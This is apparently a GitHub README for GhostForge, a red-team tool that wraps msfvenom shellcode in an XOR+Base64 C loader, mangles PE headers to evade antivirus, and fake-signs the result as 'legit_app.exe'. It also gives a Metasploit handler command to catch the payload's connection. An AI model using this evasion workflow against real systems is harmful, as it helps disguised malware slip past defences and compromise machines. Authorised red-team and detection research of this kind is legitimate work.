 # 👻 GhostForge

GhostForge is a customizable payload generation and shellcode obfuscation tool designed for red team research, adversary simulation, and malware evasion analysis. It generates XOR+Base64 encoded shellcode loaders in C, compiles them with `mingw-w64`, and optionally signs them with a fake certificate to improve delivery success.

![Alt text](images/virustotal.png)


> **⚠️ DISCLAIMER:** This project is intended for **educational and research purposes only**. Do **not** use this tool against systems you do not own or have explicit permission to test. Misuse can be **illegal** and unethical.

---

## 🚀 Features

- Generate shellcode with `msfvenom`
- XOR+Base64 encoding to evade static detection
- C payload loader generator
- Windows PE evasion via `lief` (e.g. header obfuscation, section mangling)
- Optional fake certificate signing using `osslsigncode`
- Supports multiple platforms: Windows, Linux, OSX, Android, PHP, Python, Java

---

## 📦 Requirements

- Linux system (tested on Arch/Manjaro)
- [`msfvenom`](https://docs.metasploit.com/)
- `python3` with:
  - `lief`
- `mingw-w64-gcc` (`x86_64-w64-mingw32-gcc`)
- `osslsigncode`
- `openssl`

### 📥 Install Dependencies (Arch Linux)

```bash
# MSF and osslsigncode
sudo pacman -S metasploit osslsigncode

# Python module
pip install lief

# Cross compiler
paru -S mingw-w64-gcc
```

## 🔧 Usage

```bash
chmod +x ghostforge.sh
./ghostforge.sh
```

- Choose from a list of payloads or input a custom one
- Shellcode will be XOR+Base64 encoded
- A C loader will be generated and compiled to a Windows executable
- PE file will be modified with evasive techniques
- The payload will be fake-signed with a self-signed certificate

### 📁 Output

After completion, you'll find:
```bash
legit_app.exe  # Final obfuscated and signed payload
```

Use msfconsole as the handler:
```bash
msfconsole -qx 'use exploit/multi/handler; set PAYLOAD <your-payload>; set LHOST=<your-ip>; set LPORT=<your-port>; run'
```

## ⚠️ Legal Notice
GhostForge is strictly intended for use in lab environments, red teaming engagements, or penetration testing with appropriate permissions. The developers are not responsible for any damage caused by misuse of this tool.

